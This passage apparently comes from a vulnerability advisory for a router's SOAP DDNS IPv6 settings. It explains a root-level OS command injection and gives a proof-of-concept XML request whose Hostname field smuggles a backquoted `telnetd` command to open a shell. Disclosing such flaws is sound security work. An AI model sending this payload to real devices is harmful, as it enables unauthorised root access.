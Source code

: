 <img src="ddnsserver_ddns6generate.png" width="90%">

At this point, the crafted shell script with a malformed parameter such as back-quote(`) is executed. Therefore, an attacker can execute any command by using the OS command injection with root privilege.

### PoC XML structure

```
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <SetDynamicDNSIPv6Settings>
            <DynamicDNSIPv6List>
                <DDNSIPv6Info>
                    <Status>Enabled</Status>
                    <IPv6Address>2001::1</IPv6Address>
                    <Hostname>`telnetd`</Hostname>
                </DDNSIPv6Info>
            </DynamicDNSIPv6List>
        </SetDynamicDNSIPv6Settings>
    </soap:Body>
</soap:Envelope>
```